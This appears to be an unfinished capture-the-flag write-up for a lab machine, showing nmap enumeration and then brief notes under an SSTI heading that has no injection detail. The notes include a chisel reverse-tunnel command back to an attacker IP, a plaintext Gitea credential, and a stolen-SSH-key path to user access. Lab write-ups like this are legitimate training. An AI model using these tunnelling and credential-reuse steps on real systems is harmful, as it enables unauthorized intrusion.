 # OpenSource

---

## Setup

Spawned in the machine as always, got the IP and stored it in an environment variable in case I lose it -as always-

```shell
$ export IP=10.10.11.164
$ echo $IP
10.10.11.164
```

and to make sure everything is working alright and the target machine is up and running, we can use `ping` to make sure it's alive.

```shell
$ ping $IP
PING 10.10.11.164 (10.10.11.164) 56(84) bytes of data.
64 bytes from 10.10.11.164: icmp_seq=1 ttl=63 time=69.3 ms
64 bytes from 10.10.11.164: icmp_seq=2 ttl=63 time=68.1 ms
64 bytes from 10.10.11.164: icmp_seq=3 ttl=63 time=67.9 ms
64 bytes from 10.10.11.164: icmp_seq=4 ttl=63 time=70.4 ms
```

---

## Enumeration

First step after spawning in the target machine and connected to the VPN, I start an [`nmap`](https://nmap.org) scan to determine open ports and running services and may be vulnerable using the following flags:

`-sV`: Determine running services/versions on open ports
`-sC`: Run default scripts
`-v`: Verbose output for more information about the scan
`-oN`: Write the output of the scan into a file

```shell
$ nmap -sV -sC -v -oN scan.nmap $IP
```

scan result:

```bash
Nmap scan report for 10.10.11.164
Host is up (0.11s latency).
Not shown: 65397 closed tcp ports (conn-refused), 136 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1e:59:05:7c:a9:58:c9:23:90:0f:75:23:82:3d:05:5f (RSA)
|   256 48:a8:53:e7:e0:08:aa:1d:96:86:52:bb:88:56:a0:b7 (ECDSA)
|_  256 02:1f:97:9e:3c:8e:7a:1c:7c:af:9d:5a:25:4b:b8:c8 (ED25519)
80/tcp open  http    Werkzeug/2.1.2 Python/3.10.3
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Sat, 24 Sep 2022 11:31:08 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5316
|     Connection: close
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>upcloud - Upload files for Free!</title>
|     <script src="/static/vendor/jquery/jquery-3.4.1.min.js"></script>
|     <script src="/static/vendor/popper/popper.min.js"></script>
|     <script src="/static/vendor/bootstrap/js/bootstrap.min.js"></script>
|     <script src="/static/js/ie10-viewport-bug-workaround.js"></script>
|     <link rel="stylesheet" href="/static/vendor/bootstrap/css/bootstrap.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-grid.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-reboot.css"/>
|     <link rel=
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Sat, 24 Sep 2022 11:31:08 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-title: upcloud - Upload files for Free!
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/2.1.2 Python/3.10.3
```

---

## SSTI (Server Side Template Injection)

Local: ./chisel server --reverse --port 6969
Target: ./chisel client 10.10.14.176:6969 R:socks

http://172.17.0.1:3000/

saved credits -> login to gitea dev01:Soulless_Developer#2022

get SSH_key -> SSH connection -> USER!

